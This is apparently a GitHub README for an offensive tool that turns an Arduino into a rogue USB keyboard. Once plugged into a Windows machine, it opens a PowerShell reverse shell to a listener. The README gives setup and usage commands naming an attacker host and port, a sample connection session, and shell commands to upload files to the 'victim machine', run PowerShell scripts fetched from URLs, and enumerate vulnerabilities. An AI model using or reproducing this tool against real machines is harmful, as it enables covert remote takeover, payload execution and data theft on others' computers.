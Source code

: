# 0x539 Tool

This project is to connect a windows maching using an arduino to a listening server using a port and a host through TCP.
 
*Note: A video tutorial will be added on the main* [Lear Hacking](https://www.youtube.com/channel/UCGj2tNcFld-_tCZLSkFe4ww) *Youtube channel soon!*

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this you will first need to install the [Aduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repositort into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini
pro.

optional arguments:
  -h, --help           show this help message and exit
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip
                       198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)
```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, and ill leave a video explaining that later on.

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```

commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

## Creator

* This tool was Created by [l0x539](https://0x539.co).

